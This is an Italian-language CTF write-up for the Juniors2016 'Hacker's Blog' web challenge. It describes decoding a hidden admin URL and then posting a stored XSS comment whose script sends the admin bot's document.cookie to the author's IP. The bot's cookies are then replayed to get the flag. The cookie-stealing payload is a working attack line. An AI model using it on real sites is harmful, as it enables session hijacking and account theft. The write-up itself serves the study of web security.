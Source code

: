 ```yaml
---
layout: post
title:  "Juniors2016 - Hacker's Blog"
date:   2016-12-14 03:15
categories: CTF
tags: [web,Juniors2016]
author: jbz
---
```


*PREMESSA: per accedere a questa challenge bisognava utilizzare una VPN fornita dagli organizzatori.*

Veniva dato un sito web, `http://10.0.7.216:54337`: un blog.

Cliccando su uno dei post ho notato che l'URL era il canoninco `post.php_id=<id>`. Ho provato a forzare un errore SQL ma non era vulnerabile.

Ho notato che i vari post permettevano commenti. Ho provato ad inserire un commento e mi veniva restituito un errore in russo che tradotto diceva:

> Un amministratore deve confermare il commento.

Ho pensato quindi che il sito potrebbe essere vulnerabile a Cross Site Scripting.

Ho guardato il sorgente della pagina e ho notato questo commento:

`<!-- Secret admin panel: aHR0cDovLzEwLjAuNy4yMTY6NTQzMzcvYWRtaW42NDY0MS5waHA= -->`

Che decodificato restituisce:

`http://10.0.7.216:54337/admin64641.php`

Sono andato a quell'indirizzo e mi veniva restituito un errore (sempre in russo) che tradotto era:

> Username e password sbagliati.

Ho postato quindi un commento con questo payload (10.3.2.2. era il mio indirizzo IP):

```html
<script>document.write('<img src=http://10.3.2.2:8000/?' + document.cookie +'>')</script>
```

Ho scoperto che il cookie del bot era `login=admin`. Ho impostato il cookie, sono tornato nella pagina admin che ho trovato in precedenza, ma purtroppo ottenevo lo stesso errore.

Ho provato quindi un altro payload, per recuperare `document.location` ed ho ottenuto l'indirizzo `http://10.0.7.216:54337/bot_check.php?check=4e195228ec31dd6f3fef492`. Ho fatto una richiesta a quell'indirizzo e ho notato che il webserver mi ha settato due cookie:

```
Set-Cookie: login=admin; expires=Mon, 05-Dec-2016 19:35:19 GMT; path=/
Set-Cookie: password=e0377f6e85d987d81e96c0381c789360fe90547bdf9be3b5082a492b9c4184f7; expires=Mon, 05-Dec-2016 19:35:19 GMT; path=/
```

Con questi cookie, sono tornato alla pagina admin che ho trovato in precedenza ed ho ottenuto la flag:

> Флаг:
>
> 1true_haCkeers1337_XSS
